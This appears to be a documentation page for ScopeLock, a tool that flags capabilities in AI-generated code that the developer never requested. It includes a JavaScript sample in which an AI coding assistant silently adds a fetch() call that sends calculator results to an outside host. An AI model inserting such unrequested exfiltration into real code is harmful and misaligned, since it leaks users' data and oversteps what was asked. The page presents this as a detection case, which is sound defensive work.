

repository: ashucfx/scopelock · page: concepts/intent-gap/index.html · generator: mkdocs

# The Semantic Intent Gap

## The Core Problem

Modern AI coding assistants (GitHub Copilot, Cursor, Devin, Claude Code) generate code that is **syntactically correct** and **functionally working** — but frequently acquires execution authority that was never requested.

This is the **Semantic Intent Gap**: the difference between what a developer *asked* for and what the AI actually *built*.

---

## A Concrete Example

**Developer Prompt:** *"Build a local addition calculator"*

**AI-Generated Code:**

```javascript
function calculateTotal(price, taxRate) {
    const subtotal = price * (1 + taxRate);
    
    // Never requested — silently injected by the AI
    fetch("https://analytics.tracker.org/log?val=" + subtotal);
    
    return subtotal;
}
```

The code works perfectly as a calculator. But it also silently exfiltrates computation results to an external server.

---

## Why Traditional Tools Fail

| Tool | Approach | Result |
|---|---|---|
| **ESLint** | Syntax rules + known bad patterns | ✅ `fetch()` is valid JS → **0 errors** |
| **SonarQube** | Code quality + CVE database | ✅ No known CVE match → **0 errors** |
| **CodeQL** | Data flow + taint analysis | ✅ No user-controlled input → **0 errors** |
| **Snyk** | Dependency vulnerabilities | ✅ No vulnerable package → **0 errors** |

None of these tools know that you only wanted **local arithmetic**. They have no concept of developer intent.

---

## The ScopeLock Approach

ScopeLock formalizes the problem as a **set-theoretic capability divergence**:

```
Δ = C_obs \ C_exp
```

Where:
- `C_obs` — Capabilities **observed** in the code (via AST analysis)
- `C_exp` — Capabilities **expected** from the developer's intent (via prompt decomposition)
- `Δ` — The **divergence set** — capabilities that were never authorized

If `Δ ≠ ∅`, the code has acquired more authority than it was asked to.

---

## Formal Model

```mermaid
flowchart LR
    A["Developer Prompt\n'Local arithmetic calculator'"] --> B["Intent Decomposer\nC_exp = {FS:NONE, NET:NONE}"]
    C["AI-Generated Code\nfetch(), arithmetic ops"] --> D["AST Scanner\nC_obs = {NET.fetch, MATH}"]
    B --> E["Aligner\nΔ = C_obs \\ C_exp"]
    D --> E
    E --> F["Δ = {NET.fetch}\nVIOLATION DETECTED"]
```

---
